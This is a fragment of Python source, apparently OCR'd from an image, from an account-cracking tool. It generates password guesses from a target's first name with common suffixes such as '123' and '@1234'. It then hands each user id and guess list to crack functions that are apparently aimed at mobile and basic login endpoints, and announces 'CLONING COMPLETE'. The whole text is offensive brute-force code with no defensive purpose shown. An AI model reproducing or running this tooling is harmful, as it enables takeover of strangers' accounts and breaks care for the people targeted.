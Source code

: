 				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

					pwv.append(frs+'@@')

					pwv.append(frs+'123')

					pwv.append(frs+'123@')

					pwv.append(frs+'123@@@')

					pwv.append(frs+'1234')

					pwv.append(frs+'1234@')

					pwv.append(frs+'12345')

					pwv.append(frs+'123456')

					pwv.append(frs+'@123')

					pwv.append(frs+'@@123')

					pwv.append(frs+'@1234')

					pwv.append(frs+'@12345')

					pwv.append(frs+'@123456')

			if 'ya' in pwpluss:

				for xpwd in pwnya:

					pwv.append(xpwd)

			else:pass

			if 'mobile' in method:

				pool.submit(crack,idf,pwv)

			elif 'free' in method:

				pool.submit(crackfree,idf,pwv)

			elif 'touch' in method:

				pool.submit(cracktouch,idf,pwv)

			elif 'free' in method:

				pool.submit(crackfree,idf,pwv)

			else:

				pool.submit(crackmbasic,idf,pwv)

	print('\n\033[1;37m----------------------------------------------')

	print(' [\u001b[36m•\033[1;37m] CLONING COMPLETE AT '+time.strftime("%H:%M")+" "+ tag)
